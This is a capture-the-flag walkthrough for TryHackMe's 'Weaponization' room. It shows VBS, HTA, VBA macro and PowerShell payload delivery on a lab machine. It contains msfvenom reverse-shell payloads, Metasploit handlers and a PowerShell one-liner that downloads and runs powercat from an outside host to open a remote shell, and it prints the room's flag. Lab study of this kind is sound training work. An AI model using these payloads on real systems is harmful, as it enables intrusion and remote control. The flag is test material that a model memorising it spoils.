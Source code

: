 ![Weaponization Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Cover.png" alt="Weaponization Logo">
</p>

# Weaponization

This guide contains the answer and steps necessary to get to them for the [Weaponization](https://tryhackme.com/room/weaponization) room.

## Table of contents

- [Windows Scripting Host - WSH](#windows-scripting-host---wsh)
- [An HTML Application - HTA](#an-html-application---hta)
- [Visual Basic for Application - VBA](#visual-basic-for-application---vba)
- [PowerShell - PSH](#powershell---psh)
- [Delivery Techniques](#delivery-techniques)
- [Practice Arena ](#practice-arena)

### Windows Scripting Host - WSH

1. Try to replace the calc.exe binary to execute cmd.exe within the Windows machine.

   I tried the message box using cscript which seemed to work.
   
   ![Hello](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_Hello.png)

   When trying the open cmd.exe with the vbs file, I ran into an issue where it just wouldn't open a command prompt. So I had to modify the code slightly for it to work.
   
   ```cmd
   Set shell = WScript.CreateObject("Wscript.Shell")
   shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
   ```
   
   ![CMB VBS](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_CMD_VBS.png)
   
   It also worked when saving the vbs file as a text file and using the `/e` argument.
   
   ```cmd
   cscript /e:VBScript c:\Users\thm\Desktop\payload.txt
   ```
   
   ![CMD TXT](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_CMD_TXT.png)

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### An HTML Application - HTA

1. Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task.

   This task can also be done with the regulat Windows 10 machine. Saves me from terminating and started a new machine. First we open MetaSploit and the required module.
   
   ```cmd
   use exploit/windows/misc/hta_server
   ```
   
   Then we set all required options.
   
   ```cmd
   set LHOST 10.18.78.136
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp
   exploit
   ```
   
   ![Metasploit Module Run](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_HTA_Metasploit_Module_Run.png)
   
   As seen in the image above, we managed to get a reverse connection back.

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Visual Basic for Application - VBA

1. Now replicate and apply what we discussed to get a reverse shell!

   First I had to create a vba payload using msfvenom.
   
   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f vba 
   ```
   
   Now I could copy this macro into a Word document on the target machine.
   
   ![Macro](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_VBA_Macro.png)
   
   Save it as a word 97 document so the macros are enabled. Close Word.
   
   Instead of using `nc` I used Metasploit as a handler.
   
   ```cmd
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 10.18.78.136
   set LPORT 1337
   run
   ```
   
   Now we can open the newly created Word document with our payload inside.
   
   ![Metasploit Run](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_VBA_Metasploit_Run.png)
   
   ><details><summary>Click for answer</summary>No Answer Needed</details>

### PowerShell - PSH

1. Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

   First thing to do is to download the Powercat tool from Github.
   
   ```cmd
   git clone https://github.com/besimorhino/powercat.git
   ```
   
   ![Git Clone](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_PSH_Git_Clone.png)
   
   Next we set up a server in the Powercat folder and a listener on the specified port.
   
   ```cmd
   cd Weaponization
   python3 -m http.server 8080 
   
   sudo nc -nlvp 1337
   ```
   
   Then we can download and execute Powercat from our target machine using PowerShell.
   
   ```cmd
   powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.18.78.136:8080/powercat.ps1');powercat -c 10.18.78.136 -p 1337 -e cmd"
   ```
   
   ![Powercat Reverse](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_PSH_Powercat_Reverse.png)
   
   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Delivery Techniques

1. Which method is used to distribute payloads to a victim at social events?

   This is mentioned in the text. Usually a physical device would be used as this can be handed over.

   ><details><summary>Click for answer</summary>USB Delivery</details>

### Practice Arena 

In this task we will use what we have learned and try to gain access to the target machine with one (or more) of the methods.

1. What is the flag? Hint: Check the user desktop folder for the flag! 

   For this task I decided to use the HTML Application method. First step is to create a payload using msfvenom.
   
   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f hta-psh -o letmein.hta
   ```
   
   ![Payload Creation](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Payload_Creation.png)
   
   Then we need to setup a listener, which we can do with MetaSploit. Don't forget to set the required options.
   
   ```cmd
   use exploit/multi/handler
   
   set LHOST 10.18.78.136
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp
   ```
   
   ![Metasploit Handler](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Metasploit_Handler.png)
   
   Lastly, we need to setup a server in the same folder as the payload.
   
   ```cmd
   python3 -m http.server 8080
   ```
   
   Now we can navigate to the web application and supply the url provided by the MetaSploit handler.
   
   ![Web Application](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Web_Application.png)
   
   We can see we successfully captured the reverse connection in MetaSploit. Although maybe not necessary when using this method, I also wanted to migrate our process to another. For this we can use the following command in MetaSploit:
   
   ```cmd
   run post/windows/manage/migrate
   ```
   
   ![Migrate Check](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Migrate_Check.png)
   
   Finally, we can look for the flag on the system.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Flag.png)

   ><details><summary>Click for answer</summary>THM{b4dbc2f16afdfe9579030a929b799719}</details>
